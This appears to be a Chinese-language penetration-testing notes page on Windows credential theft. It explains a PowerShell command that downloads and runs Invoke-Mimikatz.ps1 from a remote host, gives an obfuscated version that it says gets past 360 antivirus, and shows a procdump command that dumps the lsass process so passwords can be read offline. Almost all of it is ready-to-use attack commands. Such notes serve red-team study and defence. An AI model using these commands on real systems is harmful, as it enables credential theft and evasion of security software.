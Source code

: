 > `IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.101/Invoke-Mimikatz.ps1');`：这个部分利用 PowerShell 的 IEX （Invoke-Expression）命令，执行了从指定 URL 下载的 PowerShell 脚本。具体来说：
> 
> `(New-Object Net.WebClient).DownloadString('http://192.168.0.101/Invoke-Mimikatz.ps1')` 这部分使用 Net.WebClient 对象下载了位于指定 URL 的 PowerShell 脚本的内容。
IEX 命令将下载的脚本内容作为字符串执行，相当于在当前 PowerShell 会话中直接执行了从网络下载的脚本内容。
Invoke-Mimikatz：一旦远程脚本被下载并执行，这个命令会调用脚本中的 Invoke-Mimikatz 函数或命令。这通常会触发 Mimikatz 工具的执行，从而执行相关的操作，例如提取系统中的凭据信息。
> 
> 总的来说，这个命令旨在通过远程下载的方式执行一个 PowerShell 脚本（Invoke-Mimikatz.ps1），以执行 Mimikatz 工具中的相关功能。

但是powershell被360拦截

![截图](a652d36507188d106e859f1ed19c154b.png)

简单混淆就bypass了

```
powershell -c " ('IEX '+'(Ne'+'w-O'+'bject Ne'+'t.W'+'ebClien'+'t).Do'+'wnloadS'+'trin'+'g'+'('+'1vchttp://'+'192.168.0'+'.101/'+'Inv'+'oke-Mimik'+'a'+'tz.'+'ps11v'+'c)'+';'+'I'+'nvoke-Mimika'+'tz').REplaCE('1vc',[STRing][CHAR]39)|IeX"
```

### 导出lsass进程离线读密码

1.安装procdump64.exe

`https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump`

2.从procdump64.exe里导出1.dmp

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp
```

也可以在任务管理器中操作
